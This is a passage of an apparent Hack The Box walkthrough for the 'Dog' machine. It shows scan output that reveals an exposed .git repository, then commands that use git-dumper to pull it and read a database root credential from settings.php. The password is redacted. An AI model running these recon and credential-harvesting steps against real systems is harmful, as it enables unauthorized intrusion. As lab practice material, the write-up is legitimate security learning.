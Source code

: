```bash
| http-git: 
|   10.129.158.70:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: todo: customize url aliases.  reference:https://docs.backdro...
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Home | Dog
| http-robots.txt: 22 disallowed entries (15 shown)
| /core/ /profiles/ /README.md /web.config /admin 
| /comment/reply /filter/tips /node/add /search /user/register 
|_/user/password /user/login /user/logout /?q=admin /?q=comment/reply
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Initial foothold

Previous scan showed that there is a public `.git` repository. We proceed to extract that using `git-dumper`:

```bash
┌──(kali㉿kali)-[~/Documents/HTB]
└─$git clone https://github.com/arthaud/git-dumper.git
┌──(kali㉿kali)-[~/Documents/HTB]
└─$pip install -r requirements.txt
┌──(kali㉿kali)-[~/Documents/HTB]
└─$./git_dumper.py http://dog.htb/.git ../dog && cd ../dog
```

Searching on the extracted files we found a `root` user and its password on `settings.php`

```bash
┌──(kali㉿kali)-[~/Documents/HTB/dog]
└─$cat settings.php 
<?php
/**
 * @file
 * Main Backdrop CMS configuration file.
 */

/**
 * Database configuration:
 *
 * Most sites can configure their database by entering the connection string
 * below. If using primary/replica databases or multiple connections, see the
 * advanced database documentation at
 * https://api.backdropcms.org/database-configuration
 */
$database = 'mysql://root:<REDACTED>@127.0.0.1/backdrop';
$database_prefix = '';

/**
 * Site configuration files location.
...
...
```
